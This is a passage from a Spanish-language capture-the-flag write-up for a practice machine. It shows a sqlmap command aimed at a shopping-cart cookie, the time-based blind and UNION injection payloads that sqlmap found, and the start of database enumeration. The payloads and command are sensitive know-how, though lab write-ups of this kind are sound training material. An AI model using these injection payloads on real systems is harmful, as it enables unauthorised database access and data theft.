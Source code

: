 Vaya..
![Write-up Image](images/Screenshot_8.png)

A mi me gusta hacer scripts pero hoy he tenido un día movidito así que vamos a utilizar `sqlmap`, que tampoco es delito utilizarlo.

Tardamos un poco en conseguir el payload correcto con `sqlmap` pero tras unos minutos...
```shell
$ sqlmap --level 5 --risk 3 -u https://checkout.shared.htb/ --batch  --os='linux' --cookie='custom_cart={"*":"1"}' --dbms=mysql
....
sqlmap identified the following injection point(s) with a total of 2903 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: custom_cart={"' AND 6293=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- xuSZ":"1"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x7178787071,0x5555627a4458716f72716658504b706b58727a6f506a43436b414a5a547a656c42675a624f685453,0x7162627a71),NULL-- -":"1"}
---
[12:07:13] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[12:07:13] [INFO] fetched data logged to text files under '/home/pointedsec/.local/share/sqlmap/output/checkout.shared.htb'
```

# Enumerating Database -> Foothold
Y ya podemos ir enumerando con `sqlmap`
Podemos ver que hay dos bases de datos.
[*] checkout
[*] information_schema

